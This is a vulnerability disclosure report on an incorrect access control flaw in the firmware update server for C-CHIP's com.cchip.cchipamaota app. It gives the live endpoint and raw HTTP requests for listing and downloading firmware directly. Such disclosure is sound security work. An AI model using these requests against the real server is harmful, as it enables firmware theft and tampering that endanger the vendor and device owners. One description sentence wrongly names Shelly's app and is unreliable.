 # Vulnerability Report - com.cchip.cchipamaota- Incorrect Access Control

**Product:** `com.cchip.cchipamaota` 

**Vendor:** [C-CHIP](http://www.c-chip.com.cn/english/)

**Version:** 1.2.8

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.home.shelly` , developed by Shelly, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

> Although the vendor has discontinued the use of the application, the URL for obtaining firmware has not been deprecated.

## Reproduction Steps

1. The `URL_GET_3266` String value in the `Constants` class provides the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241002231411105](https://s2.loli.net/2024/10/02/ImyZbFrVCtNgTKh.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://otaus.ccsmart.com.cn:8443/CCHIP_AMA_OTA/update.json HTTP/1.1
   Host: otaus.ccsmart.com.cn:8443
   Content-Type: text/plain
   ```

   > Response:

   ```http
   HTTP/1.1 200
   Accept-Ranges: bytes
   ETag: W/"4657-1602659827000"
   Last-Modified: Wed, 14 Oct 2020 07:17:07 GMT
   Content-Type: application/json
   Content-Length: 4657
   Date: Wed, 02 Oct 2024 15:03:18 GMT
   
   {
       "updates": [
         {
           "device": "XZX",
           "build": "1362456405",
           "version": "1003",
           "file": [
               "/XZX/XZX_V1003_H1.bin",
               "/XZX/XZX_V1003_H2.bin"
           ],
           "description":"for test",
           "md5":"1506e35363c5f59cb7cde3ea0af83859"
         },
        {
           "device": "GGMMW1A",
           "build": "1562829949",
           "version": "1004",
           "file": [
               "/GGMMW1A/GGMMW1A_V1004_H1.bin",
               "/GGMMW1A/GGMMW1A_V1004_H2.bin"
           ],
           "filesize": [
               "1040384",
               "1040384"
           ],
           "description": "Modified SPP display name",
           "md5": "1506e35363c5f59cb7cde3ea0af83859"
        },
        ......
   ```

   Then, contact the `file` with `https://otaus.ccsmart.com.cn:8443/CCHIP_AMA_OTA/`, we can access the firmware directly.

   ```HTTP
   GET https://otaus.ccsmart.com.cn:8443/CCHIP_AMA_OTA//GGMMW1A/GGMMW1A_V1004_H1.bin HTTP/1.1
   Host: otaus.ccsmart.com.cn:8443
   Content-Type: text/plain
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241002231350187](https://s2.loli.net/2024/10/02/LpJTuyxVoQjEBYO.png)


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.